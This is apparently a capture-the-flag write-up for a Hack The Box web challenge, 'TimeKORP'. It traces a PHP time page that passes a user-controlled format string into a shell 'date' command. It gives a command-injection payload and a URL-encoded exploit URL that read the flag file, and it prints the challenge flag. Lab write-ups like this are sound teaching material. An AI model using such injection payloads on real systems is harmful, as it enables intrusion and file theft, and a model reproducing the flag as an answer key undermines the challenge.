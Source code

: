 # TimeKORP

- attachments
  - [`web_timekorp.zip`](web_timekorp.zip)

## Solution

Go to `http://94.237.55.185:45222/?format=%27;%20echo%20$(cat%20../flag)%20%27` in your browser, replacing the hostname with your own one. The flag will be shown clearly on the webpage. The flag is `HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}`.

## Process

If you look at the webpage, it seems to be a website displaying the current time.

Since they have provided the source, it is best that we look into the source first. The flag location is apparent from the provided source.

Eventually, you will come across this suspicious code in [`web_timekorp/challenge/models/TimeModel.php`](web_timekorp/challenge/models/TimeModel.php):

```PHP
$this->command = "date '+" . $format . "' 2>&1";
```

One can guess that the string will be run in a shell. Then, clearly we need to do shell injection by selecting `$format` correctly:

```shell
date '$format' 2>&1
```

After some time, you can derive some shell code that reads the flag file by letting `$format` be `'; echo $(cat ../flag) '`:

```shell
date ''; echo $(cat ../flag) '' 2>&1
```

This will ignore the `date` command output, read the flag file and send it to stdout, which will then be shown on the webpage.

Last thing is that we need to URL encode the payload correctly to get the following URL: `http://94.237.55.185:45222/?format=%27;%20echo%20$(cat%20../flag)%20%27`. Your hostname may be different.

Go to the URL in the browser and you should see the flag shown very clearly in the text: `It's HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}.`

Finally, the flag is `HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}`.
